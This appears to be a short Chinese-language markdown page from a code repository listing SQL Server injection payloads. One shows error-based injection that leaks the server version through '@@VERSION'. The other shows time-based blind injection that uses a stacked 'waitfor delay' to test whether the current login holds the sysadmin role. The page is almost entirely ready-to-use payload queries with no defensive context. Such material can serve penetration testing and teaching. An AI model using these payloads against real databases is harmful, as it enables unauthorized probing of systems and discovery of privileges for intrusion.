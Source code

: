 # 1、报错注入
```
select session_id,command from sys.dm_exec_requests where session_id=12 or 1=@@VERSION;
```
如下图  
![image](./pic/0.png)

# 1.2、时间盲注
```
select session_id,command from sys.dm_exec_requests where session_id=12;if(1=(select is_srvrolemember('sysadmin'))) waitfor delay '0:0:5'-- and 1=1;
```
如下图  
![image](./pic/1.png)
